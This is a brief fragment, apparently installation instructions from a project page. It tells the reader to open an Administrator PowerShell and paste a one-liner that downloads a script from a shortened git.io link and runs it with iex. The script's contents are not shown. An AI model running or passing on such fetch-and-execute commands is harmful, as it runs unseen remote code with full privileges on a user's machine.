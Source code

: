 Run Powershell with Administrator rights


Paste the below command and let it do its thing

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://git.io/JJ525')"